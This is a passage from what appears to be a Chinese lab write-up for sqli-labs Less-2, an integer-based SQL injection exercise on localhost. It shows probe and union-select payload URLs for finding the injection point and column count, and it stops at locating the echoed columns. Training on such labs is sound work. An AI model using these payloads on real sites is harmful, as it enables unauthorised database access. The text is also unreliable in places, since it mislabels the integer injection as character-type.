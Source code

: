 

> 
<h2>二、Less2（GET-Error based - intiger based）</h2>
<h3>简介：（整型注入）</h3>
请求：GET
方法：报错注入

<hr/>
<h3>**第一步：注入点测试**</h3>

测试闭合符号
http://localhost:8080/sqli-labs-master/Less-2/'
在后面加上了’
发现报错了，说明带入数据库中处理了，且闭合符合为'
可能存在注入点
（使用可能闭合的符号进行测试）

 
 

验证注入点
输入ID序号为1的进行查询
（一般没改的化就是ID为关键字）
http://localhost:8080/sqli-labs-master/Less-2/<br/> ?id=1
（都还没必要考虑注释掉后面其他的符号）

回显了ID为1的用户信息
说明存在注入 

#加上单引号，出现了奇数次


判断注入类型
闭合前面单引号，注释掉后面引号
通过and连接1=1    和   1=2来判断是否为字符型注入
http://localhost:8080/sqli-labs-master/Less-2/<br/> ?id=1 and 1=1
（正确回显，因为1=1确实对的，但是还不能下结论）

 
http://localhost:8080/sqli-labs-master/Less-2/<br/> ?id=1 and 1=2
（1=2是错误，且无回显，是1=2注入到数据库影响的）
所有存在字符型注入

 

<hr/>

<h3>**第二步：查询字段数**</h3>
猜的话，使用二分法往下猜

http://localhost:8080/sqli-labs-master/Less-2/<br/> ?id=1 order by 3
（3的时候正常回显，3以下就都能回显，现在应该往上猜）

 
 http://localhost:8080/sqli-labs-master/Less-2/<br/> ?id=1 order by 4
（4的时候报错了，说明是3了）

 
<hr/>

<h3>**第三步：判断回显位**</h3>
使用联合查询union
将id赋值为假（eg：id=-1）
http://localhost:8080/sqli-labs-master/Less-2/<br/> ?id=-1 union select 1,2,3 
